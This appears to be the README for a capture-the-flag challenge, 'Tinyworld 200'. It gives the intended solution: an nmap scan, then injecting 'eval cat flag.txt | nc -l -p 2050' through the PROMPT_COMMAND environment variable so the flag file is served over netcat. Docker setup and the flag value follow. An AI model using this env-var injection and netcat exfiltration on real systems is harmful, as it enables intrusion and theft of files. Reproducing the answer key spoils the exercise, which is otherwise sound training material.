 # Tinyworld 200

In this challenge, competitors are provided with an anonymous SSH to a server under the username `challenge@addr -p 2222` where when they log in they are presented with a prompt that will let them run any 5 character command with no special characters and set some environment variables, but not let them receive any output back from any of their commands.

As a note, make sure to setup the openstack firewall to ONLY allow 2000 - 2100 and 2222 in from competitors, this is in order to make the nmap scan that the users have to perform more obvious as to which ports are available for them to use.

## Solution

First off the competitors will need to find an open port that they can open netcat on

    nmap -Pn -d -d 192.168.108.167

Run a server on your machine (replace localhost with the IP of the host where tinyworld.py is located)

    while true; do nc localhost 2050; done

ssh into the challenge box and run the following commands

    Give me an env key: PROMPT_COMMAND
    Give me an env value: eval cat flag.txt | nc -l -p 2050
    Give me a 5 char cmd: asdaa

The challenge box will then bind to port 2050 and brodcast the key for a short period of time and then exit. Note that competitors will need to perform a port scan in order to figure out which ports are actually available to bind to.

## Building/Running the Challenge

    docker build -t tinyworld-200 .

    docker run -d -p 2222:22 -p 2000-2100:2000-2100 --read-only --tmpfs /tmp tinyworld-200

## Flag

fba1b558b6b2df0c04670d8348e51a99b426f743
